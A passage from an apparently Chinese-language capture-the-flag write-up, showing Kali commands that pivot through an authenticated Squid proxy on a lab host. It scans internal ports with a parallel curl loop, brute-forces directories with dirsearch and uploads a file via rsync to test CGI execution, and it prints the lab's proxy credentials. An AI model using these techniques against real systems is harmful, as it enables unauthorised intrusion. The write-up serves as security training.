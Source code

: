 扫描内网端口：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ seq 1 65535 | xargs -P 50 -I {} sh -c 'curl -U proxy:Pr0xyH@sTh3P0w3r -x http://192.168.205.189:3128 http://127.0.0.1:{} -s -o /dev/null -w "%{http_code} {}\n" -m 1 2>/dev/null | grep "^200" | cut -d" " -f2'
80
8000
8080
```

发现 8000 端口：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ curl -U proxy:Pr0xyH@sTh3P0w3r -x http://192.168.205.189:3128 http://127.0.0.1:8000
<html>
  <head>
    <title>Internal Server</title>
  </head>
  <body>
    <h1>Internal Server</h1>
    <p>Access to the server is allowed only for authorized developers.</p>
  </body>
</html>
```

## 4.3 CGI 脚本执行

目录爆破发现 `/cgi-bin/` 目录存在且返回 403。

```
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ dirsearch -u http://127.0.0.1:8000 --proxy http://192.168.205.189:3128 --proxy-auth proxy:Pr0xyH@sTh3P0w3r
...
[10:46:49] 403 -  384B  - /cgi-bin/
[10:46:49] 301 -    0B  - /cgi-bin  ->  /cgi-bin/
...
```

推测 `_dev` 目录可能映射到 CGI 目录。

测试文件上传和访问：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ echo "hello hack" > test

┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ rsync test rsync://proxy@192.168.205.189/_dev
Password: 

┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ curl -U proxy:Pr0xyH@sTh3P0w3r -x http://192.168.205.189:3128 http://127.0.0.1:8000/cgi-bin/test -v
...
< HTTP/1.1 200 OK
...
```
